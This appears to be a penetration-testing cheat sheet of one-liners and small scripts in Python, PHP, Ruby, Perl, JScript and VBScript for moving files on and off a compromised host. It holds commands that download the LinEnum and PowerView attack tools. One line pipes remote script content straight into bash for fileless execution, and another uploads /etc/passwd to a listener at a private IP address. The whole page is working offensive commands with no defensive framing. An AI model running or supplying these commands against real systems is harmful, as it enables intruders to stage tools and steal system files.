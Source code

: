 # Transferring files with code

## Python 2 - Download

python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

## Python 3 - Download

python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

## PHP

php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

## PHP Fileless execution

php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

## Ruby - Download a File

ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'

## Perl - Download a File

perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'

## JavaScript

Create a wget.js with the following content :

var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));

## Download a File Using JavaScript and cscript.exe

cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1

## VBScript

Create a wget.vbs with the following content :

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with

## Download a File Using VBScript and cscript.exe

cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1

## Upload Operations using Python3

### Starting the Python uploadserver Module
python3 -m uploadserver

### Uploading a File Using a Python One-liner
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'

